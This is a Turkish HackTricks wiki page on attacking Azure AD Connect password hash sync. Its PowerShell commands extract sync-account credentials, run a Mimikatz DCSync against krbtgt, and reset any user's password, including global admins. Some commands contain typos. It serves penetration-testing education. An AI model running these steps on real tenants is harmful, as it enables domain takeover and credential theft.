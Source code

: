 # Az - PHS - Parola Hash Senkronizasyonu

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Parola hash senkronizasyonu**, hibrit kimlik elde etmek için kullanılan oturum açma yöntemlerinden biridir. **Azure AD Connect**, bir kullanıcının parolasının hash'inin, on-premises Active Directory örneğinden bulut tabanlı Azure AD örneğine senkronize edilmesini sağlar.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Bu, şirketler tarafından on-prem AD'yi Azure AD ile senkronize etmek için kullanılan **en yaygın yöntemdir**.

Tüm **kullanıcılar** ve **parola hash'lerinin hash'i** on-prem'den Azure AD'ye senkronize edilir. Ancak, **düz metin parolalar** veya **orijinal** **hash'ler** Azure AD'ye gönderilmez.\
Ayrıca, **Yerleşik** güvenlik grupları (alan yöneticileri gibi...) **Azure AD'ye senkronize edilmez**.

**Hash senkronizasyonu** her **2 dakikada** bir gerçekleşir. Ancak, varsayılan olarak, **parola süresi dolma** ve **hesap** **süresi dolma** Azure AD'de **senkronize edilmez**. Bu nedenle, **on-prem parolasının süresi dolmuş** (değiştirilmemiş) bir kullanıcı, eski parolayı kullanarak **Azure kaynaklarına erişmeye devam edebilir**.

Bir on-prem kullanıcı bir Azure kaynağına erişmek istediğinde, **kimlik doğrulama Azure AD'de gerçekleşir**.

**PHS**, **Kimlik Koruma** ve AAD Alan Hizmetleri gibi özellikler için gereklidir.

## Pivotlama

PHS yapılandırıldığında bazı **ayrılmış hesaplar** otomatik olarak **oluşturulur**:

* **`MSOL_<installationID>`** hesabı, on-prem AD'de otomatik olarak oluşturulur. Bu hesaba **Dizin Senkronizasyon Hesapları** rolü verilir (bkz. [belgeler](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), bu da onun **on-prem AD'de replikasyon (DCSync) izinlerine sahip olduğu anlamına gelir**.
* Azure AD'de **`Sync_<on-prem ADConnect Sunucusunun adı>_installationID`** adlı bir hesap oluşturulur. Bu hesap, Azure AD'deki **HERHANGİ bir kullanıcının** (senkronize edilmiş veya yalnızca bulut) parolasını **sıfırlayabilir**.

Önceki iki ayrıcalıklı hesabın parolaları, **Azure AD Connect'in kurulu olduğu sunucudaki bir SQL sunucusunda** **saklanır**. Yöneticiler, bu ayrıcalıklı kullanıcıların parolalarını düz metin olarak çıkarabilir.\
Veritabanası `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` konumundadır.

Bir tablodan yapılandırmayı çıkarmak mümkündür, biri şifrelenmiş olmak üzere:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Şifreli yapılandırma**, **DPAPI** ile şifrelenmiştir ve **on-prem AD'deki `MSOL_*`** kullanıcısının parolalarını ve AzureAD'deki **Sync\_\*** parolasını içerir. Bu nedenle, bunların ele geçirilmesi, AD ve AzureAD'ye yükseltilmiş erişim sağlamak mümkündür.

Bu kimlik bilgilerin nasıl saklandığı ve çözüldüğüne dair [tam bir genel bakış bulabilirsiniz](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### **Azure AD connect sunucusunu bulma**

Eğer **Azure AD connect'in kurulu olduğu sunucu** alan katılımcısıysa (belgelerde önerilir), şu şekilde bulunabilir:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* İstismar Etme
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Bu kimlik bilgilerini elde etmek için [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) aracını da kullanabilirsiniz.
{% endhint %}

### Sync\_\* İstismar Etme

**`Sync_*`** hesabını ele geçirerek, herhangi bir kullanıcının (Global Yöneticiler dahil) **şifresini sıfırlamak** mümkündür.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Aynı zamanda **sadece bulut** kullanıcılarının şifrelerini değiştirmek de mümkündür (bu beklenmedik olsa bile)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Kullanıcının şifresini dökmek de mümkündür.

{% hint style="danger" %}
Başka bir seçenek, **Sync** kullanıcısının **izinlere** sahip olduğu bir **hizmet ilkesi** için **ayrıcalıklı izinler atamak** ve ardından **bu hizmet ilkesine erişmek** olarak privesc sağlamaktır.
{% endhint %}

### Seamless SSO

PHS ile Seamless SSO kullanmak mümkündür, bu da diğer kötüye kullanımlara açıktır. Bunu kontrol edin:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
